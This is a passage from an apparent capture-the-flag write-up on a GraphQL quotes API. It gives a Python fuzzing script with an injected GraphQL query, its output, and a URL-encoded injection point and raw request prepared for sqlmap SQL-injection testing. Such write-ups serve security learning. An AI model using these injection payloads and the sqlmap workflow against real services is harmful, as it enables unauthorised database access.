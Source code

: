 ```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

for i in range(256):
    char = chr(i)
    string = f"""2) {{ id }} search (query: "{char}") {{ id,value }} test : quote(id:1"""
    encoded_string = quote(string)  # URL encode the character
    url = f"{base_url}{encoded_string}"
    response = requests.get(url, headers=headers)
    print(f"Char: {char}, Response: {response.text}")
```

One of results:

```
Char: ?, Response: {"data":{"quote":{"id":2},"search":[{"id":9,"value":"Do you think that shocks are shocks because no ones in charge?"}],"test":{"value":"Memories are art","author":{"name":"Audrey T. Lee"}}}}
```

Probably it searches the `value` by the last character. Let's now use [sqlmap](https://github.com/sqlmapproject/sqlmap) and try to find the `SQL Injection` possibility in our query. For that we need to build our query and URL-encode it *(We need to use `*` as placeholder for `sqlmap`)*:

```
/api/quotes/2) { id } search (query: "*") { id,value } test : quote(id:1
```

URL-encoded:

```
/api/quotes/2%29%20%7B%20id%20%7D%20search%20%28query%3A%20%22*%22%29%20%7B%20id%2Cvalue%20%7D%20test%20%3A%20quote%28id%3A1
```

And also we need to build our request and save it to the file:

```
GET /api/quotes/2%29%20%7B%20id%20%7D%20search%20%28query%3A%20%22*%22%29%20%7B%20id%2Cvalue%20%7D%20test%20%3A%20quote%28id%3A1 HTTP/1.1
Host: challenges.ringzer0ctf.com:10303
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: */*
Referer: http://challenges.ringzer0ctf.com:10303/
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
If-None-Match: W/"6551184a57e1e95ba11e5a8840762ebe"
Connection: close
```
